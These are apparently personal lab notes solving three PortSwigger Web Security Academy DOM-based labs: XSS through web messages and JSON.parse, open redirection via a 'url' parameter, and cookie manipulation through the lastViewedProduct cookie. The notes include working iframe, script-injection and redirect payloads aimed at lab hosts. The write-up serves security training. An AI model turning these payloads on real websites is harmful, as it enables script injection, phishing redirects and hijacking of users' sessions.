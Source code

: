 # DOM XSS using web messages and JSON.parse
get print()

## Observations
- Large JS script block in the homepage that has an addeventlistener which creates an iframe and includes URL content within it without any proper validation so we can provide a javascript "url".
```
<iframe
  src="https://0a3f0024034ef09680cee03500060079.web-security-academy.net/"
  onload='this.contentWindow.postMessage(
    JSON.stringify({ type: "load-channel", url: "javascript:print()" }),
    "*"
  )'>
</iframe>
```

# DOM-based open redirection
Redirect to attacker controlled site. 
## Observations
- Nothing on homepage, no addeventListeners. 
- On the blogs themselves they have this code block:
```
<div class="is-linkback">
    <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
</div>
```
Using an onclick event to redirect the victim when they select back to blog, the script returns the victim back to the location, so if we send a URL via an additional parameter 'url' it will route them to a destination of my chosing. 
```
https://0a00000d04dc623b809003a10067006f.web-security-academy.net/post?postId=4&url=https://exploit-0a96008e047962d480120247018d00f5.exploit-server.net/exploit#
```
It is as simple as adding the parameter and a hash then clicking "back to blog" at the bottom of the page. 

# DOM-based cookie manipulation
Get print()
## Observations
- In the products page I can see that there is an href to the link for my last view product. I can then see that its set to a cookie value for me as well. 
- See if we can inject a viable payload into my cookies. Going to try targeted scan at selected insertion point to see if Burp will find it. It did...
```
GET /product?productId=2 HTTP/2
Host: 0ace008c03865d6082d0caf600460000.web-security-academy.net
Cookie: session=DAxxWVRAZrwWa2eoUpPtagoD8YlSUgcU; lastViewedProduct=https://0ace008c03865d6082d0caf600460000.web-security-academy.net/product?productId=2cb3pm'><script>alert(1)</script>nz57u
```
A good payload for this:
```
<iframe src="https://0ace008c03865d6082d0caf600460000.web-security-academy.net/product?productId=2&'><script>print()</script>" onload="if(!window.x)this.src='https://0ace008c03865d6082d0caf600460000.web-security-academy.net';window.x=1;">
```
Loading the product URL causes the site to set/update the lastViewedProduct cookie to the full URL you just visited (including your injected &'><script>print()</script>). This bypasses cross-site cookie restrictions because the request is a first-party navigation to the victim origin.